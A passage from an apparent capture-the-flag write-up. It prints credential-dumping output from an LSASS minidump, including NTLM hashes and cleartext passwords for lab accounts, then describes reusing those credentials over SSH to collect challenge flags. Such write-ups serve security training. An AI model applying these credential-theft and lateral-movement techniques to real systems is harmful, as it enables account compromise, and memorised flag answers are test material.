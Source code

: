 ```bash
Opening : 'C:\Users\brun0\AppData\Local\Temp\lsass.DMP' file for minidump...

User Name         : rogerio.marques
Domain            : BAJORDAS
Logon Server      : WIN-DC01
Logon Time        : 8/23/2022 10:11:40 PM
SID               : S-1-5-21-705575555-4224697876-3339875019-1121
        msv :
         [00000003] Primary
         * Username : rogerio.marques
         * Domain   : BAJORDAS
         * NTLM     : a3d7d25665f1146b56192b850fd57a93
         * SHA1     : 78936dac0d808daf0f58313fa74666ef26b41e40
         * DPAPI    : 6ccf347c45ff34bd7211b7d286a25d23
        kerberos :
         * Username : rogerio.marques
         * Domain   : BAJORDAS.LOCAL
         * Password : Summer2022

Authentication Id : 0 ; 440390 (00000000:0006b846)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : LAB-WIN6
Logon Server      : LAB-WIN6
Logon Time        : 8/22/2022 10:52:50 PM
SID               : S-1-5-21-4139696292-2348944387-3964195370-500
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
         [00000000]
         * Username : BAJORDAS\bacano.do.it
         * Domain   : BAJORDAS\bacano.do.it
         * Password : ViniVidiVici420!
```

- Next thing I did was to login with ssh in `192.168.111.31` with `bacano.do.it` and I got the flag  

```bash
flag{pinguinsRPeople2}
```

- There was another challenge called `Shells, Shells, Shells` but I got the flag on this one too by using ssh in `192.168.111.34` with the same creds of `bacano.do.it`

```bash
flag{OneMore4TheRoad}
```


## First Linux Priv Esc
